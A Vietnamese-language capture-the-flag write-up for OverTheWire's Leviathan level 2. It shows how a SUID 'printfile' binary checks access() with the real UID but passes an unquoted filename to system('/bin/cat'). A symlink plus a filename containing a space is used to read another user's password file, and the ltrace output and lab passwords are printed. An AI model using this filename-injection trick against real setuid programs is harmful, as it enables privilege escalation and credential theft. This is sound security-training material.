

# 🧪 Leviathan Level 2 Writeup

> **Wargame:** Leviathan – OverTheWire  
> **Level:** leviathan2 → leviathan3  
> **Target:** Tìm mật khẩu cho user `leviathan3`

---

## 🖥️ SSH Đăng nhập

```bash
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
Password: NsN1HwFoyN
```

## 🔎 Cách thực hiện:   
**Payload:**   
```bash
ls
./printfile /etc/leviathan_pass/leviathan3
mkdir /tmp/lv2
cd /tmp/lv2
ltrace ~/printfile /etc/leviathan_pass/leviathan2
ln -s /etc/leviathan_pass/leviathan3 tus
touch "tus hehe"
~/printfile "tus hehe"
```

-Ta có 1 execute file SUID ```printfile```:    
```bash
-r-sr-x---   1 leviathan3 leviathan2 15072 Jul 28 19:05 printfile
```

-Thử dùng file này để lấy nội dung của /etc/leviathan_pass/leviathan3 và ra được:   
```bash
./printfile /etc/leviathan_pass/leviathan3

You cant have that file...
```

-Dùng ltrace đọc thử function call của ```printfile```:   


+Ở đây ta thấy ```printfile``` dùng hàm **access()** để thực hiện kiểm tra đúng quyền thực sự mà user đang có (check ```RUID```)   
-->Vì thế ta bị chặn ngay khi chạm tới file ```/leviathan3```   

-Khi thử lại với ```/leviathan2```:   
```bash
leviathan2@leviathan:~$ ltrace ./printfile /etc/leviathan_pass/leviathan2

__libc_start_main(0x80490ed, 2, 0xffffd434, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)                                                                     = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2")           = 39
geteuid()                                                                                                       = 12002
geteuid()                                                                                                       = 12002
setreuid(12002, 12002)                                                                                          = 0
system("/bin/cat /etc/leviathan_pass/lev"...NsN1HwFoyN
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                          = 0
+++ exited (status 0) +++
```

-->Ta thấy ở đoạn ```/bin/cat %s``` ==> Chuỗi nhập vào được giữ nguyên xi và đẩy tới hàm system để gọi /bin/cat/...

-->Sẽ ra sao nếu 1 file có space như ```tus hehe``` được chạy với ```./printfile``` với ```tus``` là symlink tới ```/etc/leviathan_pass/leviathan3```.   

-Bước 1: Tạo symlink ```tus``` tới ```/etc/leviathan_pass/leviathan3```:    
```bash
leviathan2@leviathan:/tmp/lv2$ ls -l
total 0
lrwxrwxrwx 1 leviathan2 leviathan2 30 Aug 13 03:22 tus -> /etc/leviathan_pass/leviathan3
```

-Bước 2: Tạo empty file với tên "tus hehe":    
```bash
touch "tus hehe"
leviathan2@leviathan:/tmp/lv2$ ls -l
total 0
lrwxrwxrwx 1 leviathan2 leviathan2 30 Aug 13 03:22 tus -> /etc/leviathan_pass/leviathan3
-rw-rw-r-- 1 leviathan2 leviathan2  0 Aug 13 03:26 tus hehe
```

-Bước 3: chạy lệnh ```~/printfile "tus hehe": 
```bash
 ~/printfile "tus hehe"
f0n8h2iWLP
/bin/cat: hehe: No such file or directory
```

### Các bước hoạt động của ```printfile```:   
-Dùng hàm access() để kiểm tra quyền dựa trên ```RUID``` (leviathan2) nhưng khi tới hàm system() thì quyền sẽ được tạm thời đổi thành ```EUID```(leviathan3) do file là ```SUID```

### Key: f0n8h2iWLP